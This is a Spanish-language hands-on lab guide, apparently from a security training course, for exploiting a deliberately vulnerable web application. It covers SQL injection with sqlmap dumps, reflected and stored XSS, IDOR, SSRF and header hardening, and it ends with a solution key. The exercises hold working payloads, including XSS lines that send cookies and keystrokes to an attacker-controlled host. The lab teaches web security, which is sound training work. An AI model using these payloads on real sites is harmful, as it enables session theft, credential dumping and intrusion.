


::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulada, comandos reales y tracking de progreso.

👉 [**Abrir Lab Interactivo — Sin Docker**](/CyberDefense-Pro-Network/labs-interactive/lab-webapp-01.html)

:::


# 🌐 Lab webapp-01: Explotación Web — OWASP Top 10

> Explota vulnerabilidades web del OWASP Top 10 en una aplicación vulnerable diseñada para práctica de SQL Injection, XSS, IDOR y más.

## 📊 Diagrama del Escenario



## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:

- [ ] Explotar SQL Injection (union-based, blind, error-based)
- [ ] Ejecutar Cross-Site Scripting (reflected, stored, DOM)
- [ ] Explotar IDOR para acceder a datos de otros usuarios
- [ ] Abusar SSRF para acceder a servicios internos
- [ ] Aplicar mitigaciones y headers de seguridad
- [ ] Documentar hallazgos con evidencia

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 90 minutos |
| **XP en juego** | 400 puntos |
| **Herramientas** | Burp Suite, sqlmap, curl, ffuf |
| **Flags** | 8 |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno
cd labs/intermedio/webapp-01
docker compose up -d

# Verificar servicios
docker compose ps

# Obtener shell en Kali
docker compose exec kali bash

# Abrir la aplicación
# http://localhost:8080
```

## 📋 Ejercicios

### Ejercicio 1: Reconocimiento de la Aplicación (30 XP)

**Objetivo:** Mapear la superficie de ataque de la aplicación web.

```bash
# Página principal
curl http://10.0.4.10/

# Enumerar directorios
ffuf -u http://10.0.4.10/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200

# Tecnologías
curl -I http://10.0.4.10

# Archivos sensibles
curl http://10.0.4.10/.env
curl http://10.0.4.10/config.php
curl http://10.0.4.10/.git/config
```

**Preguntas:**
1. ¿Qué tecnología usa la app? `[___]`
2. ¿Qué directorios sensibles encontraste? `[___]`
3. ¿Hay archivos de configuración expuestos? `[___]`

**Flag:** `[___]`

---

### Ejercicio 2: SQL Injection — Autenticación (50 XP)

**Objetivo:** Bypass de autenticación usando SQL Injection.

```sql
-- Login bypass
' OR '1'='1
' OR '1'='1'--
admin'--
' OR ''='

-- Extracción de datos
' UNION SELECT null,null,null--
' UNION SELECT username,password FROM users--
' UNION SELECT table_name,null FROM information_schema.tables--
```

```bash
# Con sqlmap
sqlmap -u "http://10.0.4.10/login.php" --data="user=admin&pass=test" --dbs --batch
sqlmap -u "http://10.0.4.10/login.php" --data="user=admin&pass=test" -D app_db -T users --dump --batch
```

**Preguntas:**
1. ¿Cuántos usuarios hay en la BD? `[___]`
2. ¿Cuál es el hash del admin? `[___]`
3. ¿Qué tipo de SQLi es? (union/error/blind) `[___]`

**Flag:** `[___]`

---

### Ejercicio 3: SQL Injection — Búsqueda (50 XP)

**Objetivo:** Explotar SQL Injection en el campo de búsqueda.

```sql
-- Determinar número de columnas
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3--  (si falla, hay 2 columnas)

-- UNION injection
' UNION SELECT null,null--
' UNION SELECT username,password FROM users--
' UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_name='users'--
```

```bash
# Con sqlmap
sqlmap -u "http://10.0.4.10/search.php?q=test" --dbs --batch
sqlmap -u "http://10.0.4.10/search.php?q=test" --dump --batch
```

**Preguntas:**
1. ¿Cuántas columnas tiene la consulta? `[___]`
2. ¿Qué tablas existen? `[___]`
3. ¿Pudiste extraer credenciales? `[Sí/No]`

**Flag:** `[___]`

---

### Ejercicio 4: Cross-Site Scripting — Reflejado (50 XP)

**Objetivo:** Ejecutar XSS reflejado en la búsqueda.

```html
<!-- Básico -->
<script>alert('XSS')</script>

<svg onload=alert('XSS')>

<!-- Bypass de filtros -->
<scr<script>ipt>alert('XSS')</scr</script>ipt>


<!-- Robo de cookie -->
<script>new Image().src="http://10.0.4.100:8080/steal?c="+document.cookie</script>

<!-- Keylogger -->
<script>document.onkeypress=function(e){fetch("http://10.0.4.100:8080/k?k="+e.key)}</script>
```

**Preguntas:**
1. ¿El input se refleja sin sanitizar? `[Sí/No]`
2. ¿Qué payload funcionó? `[___]`
3. ¿Pudiste robar una cookie? `[Sí/No]`

**Flag:** `[___]`

---

### Ejercicio 5: XSS — Almacenado (50 XP)

**Objetivo:** Inyectar XSS persistente en el foro/comentarios.

```html
<!-- Stored XSS en comentario -->
<script>
  document.location='http://10.0.4.100:8080/steal?c='+document.cookie
</script>

<!-- Más stealthy -->


<!-- iframe oculto -->
<iframe style="display:none" src="http://10.0.4.100:8080/steal?c="+document.cookie></iframe>
```

**Preguntas:**
1. ¿El comentario se almacena y muestra a otros usuarios? `[Sí/No]`
2. ¿El payload persiste tras recargar? `[Sí/No]`
3. ¿Qué impacto tiene este XSS? `[___]`

**Flag:** `[___]`

---

### Ejercicio 6: IDOR — Insecure Direct Object Reference (50 XP)

**Objetivo:** Acceder a datos de otros usuarios cambiando IDs.

```bash
# API de usuario
curl http://10.0.4.20/api/users/1
curl http://10.0.4.20/api/users/2
curl http://10.0.4.20/api/users/3

# Cambiar ID en la URL
curl http://10.0.4.10/profile.php?id=1
curl http://10.0.4.10/profile.php?id=2
curl http://10.0.4.10/profile.php?id=3

# IDOR en documentos
curl http://10.0.4.10/download.php?file=invoice_001.pdf
curl http://10.0.4.10/download.php?file=invoice_002.pdf
```

**Preguntas:**
1. ¿Pudiste acceder a perfiles ajenos? `[Sí/No]`
2. ¿Qué información obtuviste? `[___]`
3. ¿Cómo mitigarías esto? `[___]`

**Flag:** `[___]`

---

### Ejercicio 7: SSRF — Server-Side Request Forgery (50 XP)

**Objetivo:** Usar SSRF para acceder a servicios internos.

```bash
# SSRF para acceder a servicios internos
curl "http://10.0.4.10/fetch.php?url=http://10.0.4.30:3306"
curl "http://10.0.4.10/fetch.php?url=http://127.0.0.1:3306"

# Port scanning interno
curl "http://10.0.4.10/fetch.php?url=http://127.0.0.1:22"
curl "http://10.0.4.10/fetch.php?url=http://127.0.0.1:80"

# Acceso a metadata (si hubiera cloud)
curl "http://10.0.4.10/fetch.php?url=http://169.254.169.254/latest/meta-data/"
```

**Preguntas:**
1. ¿Qué servicios internos descubriste? `[___]`
2. ¿Pudiste acceder a la base de datos? `[Sí/No]`
3. ¿Qué información obtuviste del SSRF? `[___]`

**Flag:** `[___]`

---

### Ejercicio 8: Hardening y Defensa (70 XP)

**Objetivo:** Corregir las vulnerabilidades y aplicar headers de seguridad.

```bash
# Verificar headers actuales
curl -I http://10.0.4.10/

# Headers de seguridad que deberían existir:
# X-Frame-Options: SAMEORIGIN
# X-Content-Type-Options: nosniff
# X-XSS-Protection: 1; mode=block
# Content-Security-Policy: default-src 'self'
# Strict-Transport-Security: max-age=31536000

# Probar WAF (si está configurado)
curl "http://10.0.4.10/search.php?q='+OR+'1'='1"
# Debería ser bloqueado
```

**Preguntas:**
1. ¿Qué headers faltaban? `[___]`
2. ¿Cómo se mitigaría la SQLi? `[___]`
3. ¿Cómo se mitigaría el XSS? `[___]`

**Flag:** `[___]`

## 🔍 Flujo de Explotación



## 🏁 Validación

```bash
./scripts/validate.sh
```

## 📝 Criterios de Éxito

| Ejercicio | Criterio | Puntos | Estado |
|-----------|----------|--------|--------|
| 1 | Reconocimiento completado | 30 | ⬜ |
| 2 | SQLi en login | 50 | ⬜ |
| 3 | SQLi en búsqueda | 50 | ⬜ |
| 4 | XSS reflejado | 50 | ⬜ |
| 5 | XSS almacenado | 50 | ⬜ |
| 6 | IDOR explotado | 50 | ⬜ |
| 7 | SSRF ejecutado | 50 | ⬜ |
| 8 | Hardening aplicado | 70 | ⬜ |
| **Total** | | **400** | ⬜ |

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### SQLi Login Bypass
```
user: admin'--
pass: anything
```

### SQLi Search
```
' UNION SELECT username,password FROM users--
# admin:5f4dcc3b5aa765d61d8327deb882cf99
```

### XSS Reflejado
```
<script>alert(document.cookie)</script>
```

### IDOR
```
curl http://10.0.4.20/api/users/2
# {"id":"2","name":"admin","email":"admin@corp.net"}
```

### SSRF
```
curl "http://10.0.4.10/fetch.php?url=http://127.0.0.1:3306"
# MySQL banner leak
```

### Hardening
```apache
# .htaccess
Header always set X-Frame-Options "SAMEORIGIN"
Header always set X-Content-Type-Options "nosniff"
Header always set Content-Security-Policy "default-src 'self'"
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
